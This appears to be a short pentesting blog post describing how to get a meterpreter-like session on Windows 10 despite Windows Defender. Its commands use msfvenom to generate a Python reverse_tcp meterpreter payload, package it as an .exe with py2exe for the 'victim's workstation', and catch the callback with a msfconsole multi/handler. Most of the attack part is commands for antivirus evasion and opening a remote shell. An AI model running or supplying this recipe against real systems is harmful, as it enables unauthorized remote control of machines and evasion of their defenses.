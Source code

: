 ```yaml
---
published: true
layout: post
categories: articles
tags:
  - python
  - rev_shell
  - meterpreter
---
```


# Summary
{:.no_toc}

* toc
{:toc}

# Introduction

So, the situation, it is possible to download a file to a machine that is being tested as part of a Pentest or other legitimate activity in Windows, and it is even possible to execute it. If we are talking about the latest, tenth version of the OS, then we will run into its Windows Defender, and the likelihood of stumbling upon an antivirus is great. In such a situation, a very convenient and expandable meterpreter will not work, what is the alternative?

## Python
{:id="python"}

Here is the answer. Using Python in conjunction with metasploit and msfvenom allows us to get a decent alternative to the classic meterpreter with most of its convenient features. However we will have to sacrifice some features, it will not be possible to use such commands as getsystem and it will not be possible to migrate to the process.


# Let's start

The general scheme is as follows: we generate the python code using msfvenom, feed it to py2exe, launch the binary on the victim machine and catch the session.
<br><br>
First, install py2exe under version 3.4, since everything above is not supported.
~~~
pip install py2exe
~~~
Or, if you like updating like i do:
~~~
python -3.4 –m pip install py2exe
~~~

<br><br>

Next, create the .py code:
~~~
msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > payload.py
~~~

It is necessary to add "import getpass" to the code, which for some reason does not do the default msfvenom.

<br><br>


Make the .exe file:
<br>
~~~
python34 -m py2exe.build_exe payload.py --bundle-files 0
~~~


And run it on the victim's workstation preliminarily launch handler:<br>
~~~
msfconsole
use exploit/multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set lhost eth0
set lport <PORT>
run
~~~

And we get the command shell:

![Python_shell]({{ site.baseurl }}/assets/img/posts_rus/python_shell.jpg){:class="img"}

# Conclusion
{:id="end"}

A simple and effective way to combat Windows Defender if you do not want to lose the convenient and familiar meterpreter functionality in favor of more native solutions, such as ssh or telnet.
<br><br>
